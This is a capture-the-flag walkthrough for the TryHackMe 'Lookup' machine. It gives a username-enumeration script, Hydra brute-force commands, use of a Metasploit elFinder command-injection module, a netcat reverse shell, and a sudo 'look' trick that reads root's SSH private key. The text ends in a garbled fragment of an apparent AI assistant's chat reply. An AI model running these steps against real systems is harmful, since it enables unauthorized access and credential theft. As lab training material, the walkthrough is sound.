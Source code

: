 

# Lookup — TryHackMe Walkthrough

> **Target:** `lookup.thm` / `files.lookup.thm`
> **OS:** Ubuntu 20.04 (elFinder web app)
> **Goal:** user & root flags

---

## Table of contents

* [Overview](#overview)
* [Recon](#recon)
* [Username enumeration](#username-enumeration)
* [Password brute-force (jose)](#password-brute-force-jose)
* [elFinder & initial access](#elfinder--initial-access)
* [Privilege escalation](#privilege-escalation)
* [Flags](#flags)
* [Lessons learned](#lessons-learned)
* [Appendix — scripts & commands](#appendix---scripts--commands)

---

## Overview

This machine hosts a web application that redirects to `lookup.thm`. The app contains a login form and a file manager (`elFinder`). By enumerating usernames and attacking one found account (`jose`), I gained access to elFinder, exploited a known elFinder vulnerability to get a shell as `www-data`, escalated to the `think` user, and then gained root by abusing a `sudo` permission (`/usr/bin/look`) to read root’s private SSH key.

---

## Recon

Start with an nmap scan to identify open ports and services:

```bash
nmap -sC -sV -oN nmap.txt 10.10.147.56
```

Notable results:

* `22/tcp` — OpenSSH
* `80/tcp` — Apache httpd (redirects to `lookup.thm`)

We can see the web server redirects to `lookup.thm`; add an entry to `/etc/hosts` and browse it:

```bash
echo "10.10.147.56 lookup.thm" | sudo tee -a /etc/hosts
# then open http://lookup.thm in your browser
```

`lookup.thm` presents a simple login page.

---

## Username enumeration

At first I tried common creds such as `admin:admin` and `admin:password` — they didn’t work. SQLi attempts also failed. After some manual testing, I noticed the application returned different messages for wrong username vs wrong password. That allowed username enumeration.

I created a small Python script to find valid usernames by looking for the exact failure string returned (`Wrong password. Please try again.`). Below is the **fixed** and slightly improved script (the original had a small typo):

```python
#!/usr/bin/env python3
import requests
import time

URL = "http://lookup.thm/login.php"
WORDLIST = "/usr/share/seclists/Usernames/Names/names.txt"
PAUSE = 0.5  # polite pause between requests

headers = {"User-Agent": "Mozilla/5.0 (EnumerationBot/1.0)"}

with open(WORDLIST, "r", encoding="utf-8", errors="ignore") as fh:
    for line in fh:
        username = line.strip()
        if not username:
            continue

        data = {"username": username, "password": "password"}  # fixed test password
        try:
            resp = requests.post(URL, data=data, headers=headers, timeout=10)
        except requests.RequestException as e:
            print(f"[!] Request failed for {username}: {e}")
            continue

        text = resp.text.lower()
        # adjust the substring if the site uses different wording
        if "wrong password" in text:
            print(f"[+] Username found: {username}")
        # else: likely wrong username — be quiet

        time.sleep(PAUSE)
```

> Note: The script uses a hard-coded wordlist path — change `WORDLIST` if you want to use a different list. Throttle requests (`PAUSE`) so you don’t cause account lockouts or trip IDS.

Running this script revealed an additional username: **jose**. (This process can take some time with a large wordlist — threading or a curated small list speeds this up.)

---

## Password brute-force (jose)

With the `jose` username discovered, I used Hydra to test common passwords. Important: verify the exact failure string first with `curl` so Hydra can reliably detect failed logins:

```bash
# Confirm the failure message
curl -i -s -X POST -d "username=jose&password=badpass" http://lookup.thm/login.php | sed -n '1,200p'
# Example response contained:
# Wrong password. Please try again.
```

Hydra command used (start with a small test list first):

```bash
# small test list
cat > small.txt <<'EOF'
123456
password
qwerty
letmein
password123
EOF

hydra -l jose -P small.txt lookup.thm \
  http-post-form "/login.php:username=^USER^&password=^PASS^:F=Wrong password. Please try again." \
  -t 2 -f -V
```

After escalation to a larger list (`rockyou.txt`) and careful throttling, Hydra found the valid credential:

```
jose:password123
```


## elFinder & initial access

Logging in with `jose:password123` redirected me to `files.lookup.thm` (add hosts entry: `10.10.147.56 files.lookup.thm`), which runs **elFinder** — a web-based file manager.


I inspected the UI and static assets and identified the elFinder version as **2.1.47** (the version string is often in `elfinder.full.js` or visible in the UI).

Knowing the version, I researched public advisories and Metasploit modules. Metasploit contains a module for the **exiftran command injection** affecting elFinder versions `< 2.1.48`, which matched our target.

> **Note:** Always check the exact version before assuming exploitability.

### Gaining a shell

I used the Metasploit elFinder exiftran module to exploit the vulnerable connector (module details and options shown with `info` and `show options` in `msfconsole`). That yielded a meterpreter session as `www-data`. The initial session was unstable (short-lived uploader process), so I uploaded a stable reverse shell webscript and also used `netcat` as a listener to get a more reliable shell. After upgrading the shell (`python3 -c "import pty; pty.spawn('/bin/bash')"`) I had an interactive `www-data` shell.


---

## Privilege escalation

From the web shell (`www-data`) I explored the webroot and home directories. In `/home/think` I found `user.txt` (user flag) but needed higher privileges.

I checked sudo rights:

```bash
sudo -l
```

Output showed:

```
User think may run the following commands on ip-10-10-68-218:
    (ALL) /usr/bin/look
```

`/usr/bin/look` is normally used to print lines in a file that begin with a given string. When run via `sudo`, it opens the target file as root — so you can read files that your user cannot.

I used `look` to dump root’s SSH private key and root flag:

```bash
# read root ssh private key
sudo /usr/bin/look '' /root/.ssh/id_rsa

# read root flag
sudo /usr/bin/look '' /root/root.txt
```

This returned both the private key and the `root.txt` contents. I saved the leaked key locally (on the attack VM), set `chmod 600`, and SSH’d into the box as root using that key:

```bash
ssh -i id_rsa root@lookup.thm
```

Once root, I viewed `/root/root.txt`:


---

## Flags

* `user.txt` — `38375fb4dd8baa2b2039ac03d92b820e`
* `root.txt` — `5a285a9f257e45c68bb6c9f9f57d18e8`

---

## Lessons learned

* **Error message differences** (username vs password errors) can enable username enumeration — always check the exact site behaviour.
* **Patch management matters** — elFinder versions before 2.1.48/2.1.59 had known vulnerabilities; keep web apps up to date.
* **Sudo misconfigurations** are low-hanging fruit. `sudo -l` should always be checked — it often yields direct privilege escalation paths.
* **When a post-exploit session is unstable**, migrate to a long-lived process or use an alternative stable shell mechanism (webshell, reverse shell with netcat, payload migration).

ate the file content for you),
* produce a second document `writeup.md` that is more verbose and includes command outputs and exact msfconsole logs, or
* format this into a GitHub Pages-friendly README with proper screenshots and a short TL;DR for social media.

Which would you like me to generate next?
